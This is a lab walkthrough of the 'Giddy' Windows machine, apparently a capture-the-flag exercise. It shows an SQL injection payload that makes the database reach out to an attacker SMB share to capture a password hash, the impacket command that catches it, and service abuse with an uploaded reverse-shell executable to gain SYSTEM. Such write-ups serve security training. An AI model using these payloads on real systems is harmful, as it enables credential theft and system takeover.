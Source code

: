 # Giddy - Walkthrough (Windows)

## 🎯 Initial Foothold

### 🔍 1. SQL Injection Discovery
- Found an MVC-style app on port 80.
- Inside the **search page**, discovered an **SQLi vulnerability**.

### ⚙️ 2. Exploiting SQLi via SMB Hash Capture
- Sent this payload in a Burp request:
  ```
  '+exec+xp_fileexist+'\\10.10.16.52\share\file--
  ```

- Meanwhile, on attacker machine:
  ```bash
  impacket-smbserver ninjafolder $(pwd) -smb2support
  ```

- Captured NTLMv2 hash for user **Stacy**.
- Cracked the hash using `john`.

### 🔑 3. Logging in via PowerShell Web Interface
- Used credentials with domain-style login:
  ```
  giddy\stacy
  ```

- Gained access to a PowerShell web console via the website.

---

## ⚙️ Privilege Escalation

### 🔍 1. Local Enumeration
- Found **Ubiquiti UniFi Video** app under:
  ```
  C:\ProgramData\unifi-video
  ```

### 🚨 2. Exploiting UniFi LPE Vulnerability
- Referenced exploit:  
  [Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation (EDB 43390)](https://www.exploit-db.com/exploits/43390)

- Used a crafted service executable for privilege escalation:
  - [prometheus.cpp from 0xdarkvortex](https://github.com/paranoidninja/0xdarkvortex-MalwareDevelopment/blob/master/prometheus.cpp)

### 🛠️ 3. Service Abuse
- Uploaded malicious `.exe` reverse shell to the system.

- Started the service:
  ```powershell
  sc start "Ubiquiti UniFi Video"
  # or
  Start-Service "Ubiquiti UniFi Video"
  ```

- Confirmed status:
  ```powershell
  Get-Service "Ubiquiti UniFi Video"
  ```

- Caught reverse shell as **NT AUTHORITY\SYSTEM**

---

## 🧠 Notes
- Impacket SMB hash capture + SQLi is a deadly combo.
- PowerShell web consoles can be used like full shells.
- Service overwriting is a common and reliable LPE route.
